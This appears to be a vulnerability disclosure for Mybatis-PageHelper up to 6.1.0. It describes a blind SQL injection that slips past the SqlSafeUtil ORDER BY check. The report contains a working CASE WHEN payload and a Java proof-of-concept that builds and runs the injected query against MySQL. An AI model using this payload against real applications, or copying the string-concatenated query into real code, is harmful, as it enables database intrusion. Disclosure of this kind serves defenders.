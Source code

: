 ## Title: SQL Injection Vulnerability in Mybatis-PageHelper ≤ 6.1.0

**BUG\_Author:** Svanur

**Affected Version:** Mybatis-PageHelper ≤ 6.1.0

**Vendor:** [Mybatis-PageHelper GitHub Repository](https://github.com/pagehelper/Mybatis-PageHelper)

**Software:** [Mybatis-PageHelper](https://github.com/pagehelper/Mybatis-PageHelper)

**Vulnerability Files:**

* `src/main/java/com/github/pagehelper/util/SqlSafeUtil.java`

## Description:

1. **Blind SQL Injection via ORDER BY clause:**

   * In the `SqlSafeUtil.check()` method, the supplied ORDER BY parameter is not strictly validated.
   * Payloads such as `case when current_user regexp 0x726f6f74 then 1 else 2 end` bypass the check, enabling boolean-based SQL injection through sorting logic.

2. **Exploiting the Injection:**

   * By injecting a crafted CASE WHEN expression into the ORDER BY clause, an attacker can infer database state (e.g., current user) based on result ordering.

3. **Example Injection Payload:**

   ```sql
   ORDER BY case when current_user regexp 0x726f6f74 then uuid else id end ASC
   ```

4. **Constructing the Vulnerable Query:**

   * Example query executed without `Page.setUnsafeOrderBy`:

     ```sql
     SELECT * FROM users ORDER BY case when current_user regexp 0x726f6f74 then uuid else id end ASC;
     ```

5. **Verifying the Exploit:**

   * When the current user is `root` (hex `0x726f6f74`), results sort by `uuid`; otherwise they sort by `id`.

## Proof of Concept:

1. Create and run the following Java test class:

   ```java
   import com.github.pagehelper.PageException;
   import com.github.pagehelper.util.SqlSafeUtil;
   import java.sql.*;

   public class Test {
       public static Boolean setOrderBy(String orderBy) {
           if (SqlSafeUtil.check(orderBy)) {
               throw new PageException("order by [" + orderBy + "] has a risk of SQL injection, " +
                       "if you want to avoid SQL injection verification, you can call Page.setUnsafeOrderBy");
           }
           return true;
       }

       public static void main(String[] args) {
           String url = "jdbc:mysql://localhost:3306/test?useUnicode=true&characterEncoding=utf8&useSSL=true";
           String username = "root";
           String password = "123456";

           String payload = "case when current_user regexp 0x726f6f74 then uuid else id end ASC";
           String sql = "SELECT * FROM users ORDER BY " + payload;

           if (setOrderBy(payload) && setOrderBy(payload)) {
               // proceed to execute
           }

           try (Connection conn = DriverManager.getConnection(url, username, password);
                Statement stmt = conn.createStatement();
                ResultSet rs = stmt.executeQuery(sql)) {
               while (rs.next()) {
                   System.out.println("id:" + rs.getString(1) + "---uuid:" + rs.getString(2) + "---user:" + rs.getString(3));
               }
           } catch (SQLException ex) {
               ex.printStackTrace();
           }
       }
   }
   ```

2. Execute with payload. Observe that when `current_user` matches `root`, results are ordered by `uuid`; otherwise by `id`, confirming the blind SQL injection vulnerability.
